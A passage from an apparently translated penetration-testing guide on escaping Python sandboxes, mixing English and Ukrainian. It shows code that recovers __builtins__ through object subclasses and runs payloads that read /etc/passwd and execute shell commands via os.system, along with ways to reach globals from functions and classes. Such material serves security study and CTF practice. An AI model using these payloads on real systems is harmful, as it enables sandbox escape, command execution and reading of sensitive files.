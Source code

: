 [**Below there is a bigger function**](#recursive-search-of-builtins-globals) щоб знайти десятки/**сотні** **місць**, де ви можете знайти **builtins**.

#### Python2 and Python3
```python
# Recover __builtins__ and make everything easier
__builtins__= [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
__builtins__["__import__"]('os').system('ls')
```
### Builtins payloads
```python
# Possible payloads once you have found the builtins
__builtins__["open"]("/etc/passwd").read()
__builtins__["__import__"]("os").system("ls")
# There are lots of other payloads that can be abused to execute commands
# See them below
```
## Globals and locals

Перевірка **`globals`** і **`locals`** — хороший спосіб дізнатися, до чого ви маєте доступ.
```python
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'attr': <module 'attr' from '/usr/local/lib/python3.9/site-packages/attr.py'>, 'a': <class 'importlib.abc.Finder'>, 'b': <class 'importlib.abc.MetaPathFinder'>, 'c': <class 'str'>, '__warningregistry__': {'version': 0, ('MetaPathFinder.find_module() is deprecated since Python 3.4 in favor of MetaPathFinder.find_spec() (available since 3.4)', <class 'DeprecationWarning'>, 1): True}, 'z': <class 'str'>}
>>> locals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'attr': <module 'attr' from '/usr/local/lib/python3.9/site-packages/attr.py'>, 'a': <class 'importlib.abc.Finder'>, 'b': <class 'importlib.abc.MetaPathFinder'>, 'c': <class 'str'>, '__warningregistry__': {'version': 0, ('MetaPathFinder.find_module() is deprecated since Python 3.4 in favor of MetaPathFinder.find_spec() (available since 3.4)', <class 'DeprecationWarning'>, 1): True}, 'z': <class 'str'>}

# Obtain globals from a defined function
get_flag.__globals__

# Obtain globals from an object of a class
class_obj.__init__.__globals__

# Obtaining globals directly from loaded classes
[ x for x in ''.__class__.__base__.__subclasses__() if "__globals__" in dir(x) ]
[<class 'function'>]

# Obtaining globals from __init__ of loaded classes
[ x for x in ''.__class__.__base__.__subclasses__() if "__globals__" in dir(x.__init__) ]
```